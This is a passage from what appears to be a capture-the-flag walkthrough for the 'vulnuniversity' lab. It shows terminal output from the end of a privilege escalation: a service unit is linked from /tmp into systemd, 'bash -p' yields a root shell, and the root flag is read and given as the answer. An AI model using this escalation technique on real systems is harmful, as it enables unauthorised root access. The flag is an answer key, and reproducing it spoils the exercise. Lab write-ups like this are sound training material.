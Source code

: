 ```bash
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.oAjhWlKeGY.service to /tmp/tmp.oAjhWlKeGY.service.
www-data@vulnuniversity:/$ bash -p
bash-4.3# cd /root
bash-4.3# ls
root.txt
bash-4.3# cat root.txt
a58ff8579f0a9270368d33a9966c7fd5
```

**Answer**: `a58ff8579f0a9270368d33a9966c7fd5`